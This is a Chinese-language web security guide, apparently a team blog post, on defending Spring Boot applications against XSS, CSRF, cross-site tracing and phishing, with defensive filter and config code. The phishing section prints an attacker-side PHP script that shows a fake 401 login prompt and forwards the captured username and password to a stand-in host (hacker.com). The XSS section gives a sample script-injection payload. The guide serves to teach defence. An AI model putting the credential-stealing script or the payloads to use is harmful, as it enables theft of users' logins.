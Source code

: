 ```yaml
---
title: 主流web前端安全需要防范的点
categories:
  - javascript
date: 2020-04-13 20:05:22
tags:
---
```


# 主流web前端安全需要防范的点

## 概述

我们的web应用项目分为两类，只内网可访问项目和外网可访问项目，内网项目因为有防火墙策略，可以暂缓对前端安全的审查，但外网项目需要注意很多前端安全风险，这些风险会被黑客利用，轻则篡改网页内容，重则窃取网站内部数据，更为严重的则是在网页中植入恶意代码，使得用户受到侵害。常见的安全漏洞如下：

- XSS 攻击：对 Web 页面注入脚本，使用 JavaScript 窃取用户信息，诱导用户操作。
- CSRF 攻击：伪造用户请求向网站发起恶意请求。
- 钓鱼攻击：利用网站的跳转链接或者图片制造钓鱼陷阱。
- HTTP参数污染：利用对参数格式验证的不完善，对服务器进行参数注入攻击。
- 远程代码执行：用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令。

值得注意的是，这些安全隐患虽然是从前端发起攻击，但实质的防范是需要后端的协助，一般后端框架本身会提供集成方案来解决这些风险，如Spring Security，我们以团队主流的框架spring boot为例，自检是否有被注意到（因为我并不会java，但会其他后端技术，因为原理是一样的，框架的实现也都是大同小异的，所以按照我提供的方案去找下你们自己框架的，肯定是可以直接用的直接用的方法配置的）。

## 安全威胁XSS的防范

### 简介
XSS（cross-site scripting跨域脚本攻击）攻击是最常见的 Web 攻击，其重点是『跨域』和『客户端执行』。
XSS 攻击一般分为两类：
- Reflected XSS（反射型的 XSS 攻击）
- Stored XSS（存储型的 XSS 攻击）
对XSS攻击的防范，核心是转义，使XSS攻击代码失效。

### 反射型 XSS 及其防范
反射型的 XSS 攻击，主要是由于服务端接收到客户端的不安全输入，在客户端触发执行从而发起 Web 攻击。比如：

在某购物网站搜索物品，搜索结果会显示搜索的关键词。搜索关键词填入`<script>alert('handsome boy')</script>`, 点击搜索。页面没有对关键词进行过滤，这段代码就会直接在页面上执行，弹出 alert。

**防范措施**

特殊字符进行转义操作，例如将 < > /等特殊字符转换成html支持的 < >等，这样显示到页面的时候还是那些内容但是不会当成脚本执行了。
这种方式我们用到了SpringFramework自带的HtmlUtils.htmlEscape方法进行替换。

### 存储型 XSS 及其防范

基于存储的 XSS 攻击，是通过提交带有恶意脚本的内容存储在服务器上，当其他人看到这些内容时发起 Web 攻击。

最主要的传参方式之一的表单交互，对参数进行过滤：
```java
package cn.pconline.pcloud.admin.config;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;

@WebFilter(filterName = "xssFilter", urlPatterns = "/*", asyncSupported = true)
public class XssFilter implements Filter {

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
            throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) request;
        XssAndSqlHttpServletRequestWrapper xssRequestWrapper = new XssAndSqlHttpServletRequestWrapper(req);
        chain.doFilter(xssRequestWrapper, response);
    }

    @Override
    public void destroy() {

    }
}
```

考虑到在现在的开发中，更多的是使用json类型做数据交互，所以对json的过滤也是必不可少的，这里是通过修改SpringMVC的json序列化来达到过滤xss的目的：

```java
import com.fasterxml.jackson.core.JsonGenerator;
import com.fasterxml.jackson.databind.JsonSerializer;
import com.fasterxml.jackson.databind.SerializerProvider;
import org.apache.commons.text.StringEscapeUtils;
import java.io.IOException;
public class XssStringJsonSerializer extends JsonSerializer<String> {
	@Override
 	public Class<String> handledType() {
 	return String.class;
}
 	@Override
public void serialize(String value, JsonGenerator jsonGenerator,
 	SerializerProvider serializerProvider) throws IOException {
 		if (value != null) {
 		String encodedValue = StringEscapeUtils.escapeHtml4(value);
 		jsonGenerator.writeString(encodedValue);
 		}
 	}
}
```

### JSONP XSS
JSONP 的 callback 参数非常危险，他有两种风险可能导致 XSS

- callback 参数意外截断js代码，特殊字符单引号双引号，换行符均存在风险。
- callback 参数恶意添加标签（如 <script> ），造成 XSS 漏洞。

因为我对项目的规定是前端项目禁止使用jsonp，所以这一点可以忽略。

### 其他 XSS 的防范方式
浏览器自身具有一定针对各种攻击的防范能力，他们一般是通过开启 Web 安全头生效的。框架内置了一些常见的 Web 安全头的支持。

- CSP
W3C 的 Content Security Policy，简称 CSP，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。

框架内支持 CSP 的配置，不过是默认关闭的，开启后可以有效的防止 XSS 攻击的发生。要配置 CSP , 需要对 CSP 的 policy 策略有了解，具体细节可以参考 CSP 是什么。

- X-Download-Options:noopen
默认开启，禁用 IE 下下载框Open按钮，防止 IE 下下载文件默认被打开 XSS。

- X-Content-Type-Options:nosniff
禁用 IE8 自动嗅探 mime 功能例如 text/plain 却当成 text/html 渲染，特别当本站点 serve 的内容未必可信的时候。

- X-XSS-Protection
IE 提供的一些 XSS 检测与防范，默认开启

close 默认值false，即设置为 1; mode=block


## 安全威胁 CSRF 的防范

### 概述
CSRF（Cross-site request forgery跨站请求伪造，也被称为 One Click Attack 或者 Session Riding，通常缩写为 CSRF 或者 XSRF，是一种对网站的恶意利用。 CSRF 攻击会对网站发起恶意伪造的请求，严重影响网站的安全。因此框架内置了 CSRF 防范方案。

### 防范方式
通常来说，对于 CSRF 攻击有一些通用的防范方案，简单的介绍几种常用的防范方案：

- Synchronizer Tokens：通过响应页面时将 token 渲染到页面上，在 form 表单提交的时候通过隐藏域提交上来。
- Double Cookie Defense：将 token 设置在 Cookie 中，在提交 post 请求的时候提交 Cookie，并通过 header 或者 body 带上 Cookie 中的 token，服务端进行对比校验。
- Custom Header：信任带有特定的 header（例如 X-Requested-With: XMLHttpRequest）的请求。这个方案可以被绕过，所以 rails 和 django 等框架都放弃了该防范方式。

Spring Security具有出色的CSRF支持，如果您正在使用Spring MVC的<form:form>标签或Thymeleaf @EnableWebSecurity，默认情况下处于启用状态，CSRF令牌将自动添加为隐藏输入字段。代码示例如下：

```java
 @EnableWebSecurity
public class WebSecurityConfig extends WebSecurityConfigurerAdapter {
    @Override
    protected void configure(HttpSecurity http) throws Exception {
        http
            .csrf()
                .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse());
    }
}
```

Session vs Cookie 存储：默认配置下，框架会将 CSRF token 存在 Cookie 中，以方便 AJAX 请求获取到。但是所有的子域名都可以设置 Cookie，因此当我们的应用处于无法保证所有的子域名都受控的情况下，存放在 Cookie 中可能有被 CSRF 攻击的风险。所以在子域名存在并不受控的情况下，用 Session 存储csrf token更为保险。

## XST

### 概述
XST 的全称是 Cross-Site Tracing，客户端发 TRACE 请求至服务器，如果服务器按照标准实现了 TRACE 响应，则在 response body 里会返回此次请求的完整头信息。通过这种方式，客户端可以获取某些敏感的头字段，例如 httpOnly 的 Cookie。

拓展阅读
http://www.w3.org/Protocols/rfc2616/rfc2616-sec9.html
http://deadliestwebattacks.com/2010/05/18/cross-site-tracing-xst-the-misunderstood-vulnerability/

### 防范方式
禁止 trace，track，options 三种危险类型请求。

## 钓鱼攻击
钓鱼有多种方式，这里介绍 url 钓鱼、图片钓鱼和 iframe 钓鱼。

### url 钓鱼

服务端未对传入的跳转 url 变量进行检查和控制，可能导致可恶意构造任意一个恶意地址，诱导用户跳转到恶意网站。 由于是从可信的站点跳转出去的，用户会比较信任，所以跳转漏洞一般用于钓鱼攻击，通过转到恶意网站欺骗用户输入用户名和密码盗取用户信息，或欺骗用户进行金钱交易； 也可能引发的 XSS 漏洞（主要是跳转常常使用 302 跳转，即设置 HTTP 响应头，Locatioin: url，如果 url 包含了 CRLF，则可能隔断了 HTTP 响应头，使得后面部分落到了 HTTP body，从而导致 XSS 漏洞）。

### 防范方式

- 若跳转的 url 事先是可以确定的，包括 url 和参数的值，则可以在后台先配置好，url 参数只需传对应 url 的索引即可，通过索引找到对应具体 url 再进行跳转；
- 若跳转的 url 事先不确定，但其输入是由后台生成的（不是用户通过参数传人），则可以先生成好跳转链接然后进行签名；
- 若 1 和 2 都不满足，url 事先无法确定，只能通过前端参数传入，则必须在跳转的时候对 url 进行按规则校验：判断 url 是否在应用授权的白名单内。

框架提供了安全跳转的方法，可以通过配置跳转白名单避免这种风险，spring boot中

### 图片钓鱼

如果可以允许用户向网页里插入未经验证的外链图片，这有可能出现钓鱼风险。

比如常见的 401钓鱼, 攻击者在访问页面时，页面弹出验证页面让用户输入帐号及密码，当用户输入之后，帐号及密码就存储到了黑客的服务器中。 通常这种情况会出现在<img src=$url />中，系统不对$url是否在域名白名单内进行校验。

攻击者可以在自己的服务器中构造以下代码：

401.php：作用为弹出 401 窗口，并且记录用户信息。
```php
<?php
    header('WWW-Authenticate: Basic realm="No authorization"');
    header('HTTP/1.1 401 Unauthorized');
        $domain = "http://hacker.com/fishing/";
        if ($_SERVER[sectech:'PHP_AUTH_USER'] !== null){
            header("Location: ".$domain."record.php?a=".$_SERVER[sectech:'PHP_AUTH_USER']."&b=".$_SERVER[sectech:'PHP_AUTH_PW']);
        }
?>
```
之后攻击者生成一个图片链接<img src="http://xxx.xxx.xxx/fishing/401.php?a.jpg//" />。

当用户访问时，会弹出信息让用户点击，用户输入的用户名及密码会被黑客的服务器偷偷记录。

### 防范方式

做 url 过滤

### iframe 钓鱼

iframe 钓鱼，通过内嵌 iframe 到被攻击的网页中，攻击者可以引导用户去点击 iframe 指向的危险网站，甚至遮盖，影响网站的正常功能，劫持用户的点击操作。

HTTP 提供了 X-Frame-Options 这个安全头来防止 iframe 钓鱼。默认值为 SAMEORIGIN，只允许同域把本页面当作 iframe 嵌入。

当需要嵌入一些可信的第三方网页时，可以关闭这个配置，不过这也就会导致安全隐患，我的建议是第三方网站使用nginx反向代理重写url，然后继续加这个 HTTP 头。
